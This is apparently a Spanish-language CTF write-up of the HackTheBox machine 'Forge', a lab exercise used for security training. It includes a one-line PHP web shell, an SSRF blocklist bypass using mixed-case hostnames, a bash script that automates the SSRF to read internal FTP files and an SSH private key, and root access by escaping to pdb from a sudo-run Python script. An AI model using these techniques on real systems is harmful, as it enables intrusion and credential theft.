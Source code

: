 10.10.11.111 Forge

--------------------------

### PARTE 1. Reconocimiento

Con el script de escaneo en bash hemos descubierto los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.11.111
http://10.10.11.111 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.111], RedirectLocation[http://forge.htb], Title[302 Found]
```
Vamos a meter en el /etc/hosts el nombre Forge.htb.

--------------------------

### PARTE 2. SSRF

Entramos y tenemos una galeria de fotos y una ruta para subir una imagen.
Subimos la clásica shell.php  ```<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>``` y nos dan el enlace para visualizarlo:   ```http://forge.htb/uploads/lYl9YmpShrA2sOWeUw96``` Donde nos dicen que la foto no se puede visualizar y tiene errores.  
El asunto esque se inutiliza la shell porque muestra su codigo y no lo interpreta. Al ponerle por tanto un parametro como ```?cmd=whoami``` da un error 404.   

La otra opcion que tenemos es la de subir una foto por una url. (No se puede subir nada de internet porque por motivos de seguridad las maquinas de  hackthebox no
tienen salida a internet).
Como podemos meter una ruta,  a la que la web le hace una peticion, vamos a intentar un SSRF (mostrar urls de solo acceso interno, al ser la maquina la que hace la
peticion, y no nadie de fuera, las deberia mostrar)

Ponemos ```http://localhost``` y nos dice que esta whitelisteado. Si ponemos ```http://127.1``` (otra manera de referenciar al localhost, no hay  problema).
Poniendo el nombre de la maquina ```http://forge.htb``` no, pero si cambiamos mayusculas por minusculas si ```http://ForGe.HtB```. 
Siguiendo el enlace dice que la foto tiene errores pero si le hacemos un curl ya nos da el codigo fuente de la pagina. 

Peticion -> POST a http://forge.htb/upload -> url=http://ForGe.hTb&remote=1

Como ya tenemos como meter el localhost, podemos acceder a subdominios restringidos y demas:
```console
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb
Found: test2.forge.htb (Status: 302) [Size: 281]
Found: news.forge.htb (Status: 302) [Size: 280]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb -r
Found: admin.forge.htb (Status: 200) [Size: 27]
```
Me hice un script para que filtre el enlace y le haga una peticion curl (ya que si esperas mucho borra todo lo que hayas subido a/uploads)

```bash
#!/bin/bash

while true
do
	echo -n "$:> " && read url
	link=$(curl -s -X POST http://forge.htb/upload -d "url=$url&remote=1" | grep -oE '<strong><a href=".*?"' | awk '{print $2}' FS="=" | tr -d '"')
	curl -s $link
done
```
```console
└─$ ./forge.sh
$:>
$:> http://aDmIn.FoRgE.HtB
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
$:> http://aDmIn.FoRgE.HtB/announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>;.</li>
$:> ftp://user:heightofsecurity123!@FoRgE.hTb
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```
--------------------------

### PARTE 3. SSRF a /upload privilegiado

No deja acceder al ftp directamente, pero nos dice que la ruta ```/uploads?u``` permite mostrar archivos, a esta ruta seguimos accediendo con el SSRF 
ya que el **admin.** no esta expuesto hacia fuera.
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=http://aDmIn.FoRgE.HtB
```
Este /upload?u es de **admin.forge** no el mismo upload que **forge** asi que aunque el otro no lo admita este si.
> upload (normal) -> no ftp
> upload (normal) -> upload(admin)?u=ftp://

```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/user.txt
c8b54a838595536f1e761245432be86a
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/../../../../../
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
```
Como el ftp nos muestra el /home (y no hay nada mas) pues hay que ver si hay un directorio *.ssh*
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/      
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/id_rsa  
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
```

Para explicar todo este lio de una manera mas visual:
![forge htb](https://user-images.githubusercontent.com/96772264/196032318-a1670655-e326-4151-b3b7-c403aa5d30ab.png)

--------------------------

### PARTE 4. Escalada de Privilegios

Modifique el script para que guardara esto en un archivo id_rsa y luego ```chmod 600 ./id_rsa```.
```console
└─$ ssh -i id_rsa user@10.10.11.111
```
Ejecuto mi script de enumeracion:
- No hay ni SUIDS ni Capabilities interesantes
- Se puede ejecutar como SUDO sin contraseña: /usr/bin/python3 /opt/remote-manage.py
```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:34142
^C
```
No se que tiene este script:
```console
user@forge:~$ cat /opt/remote-manage.py
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
```
Utiliza la libreria subprocess, ejecutando comandos como ```ps -faux``` pero en un contexto cerrado (o sea hay que eleigr una opcion no puedes meter
input directamente y liarla). 

```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
└─$ ssh -i id_rsa user@10.10.11.111
user@forge:~$ nc 127.0.0.1 38099
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

El asunto esque si pasa una exception (o sea metes algo que no sea ningun comando de los de arriba) sale a pdb

```console
What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) os.system("/bin/bash")
root@forge:/home/user# whoami
root
```

En el directorio /root están tanto la root.txt como un script que borra todo lo que haya en /uploads y que se ejecuta cada poco tiempo.
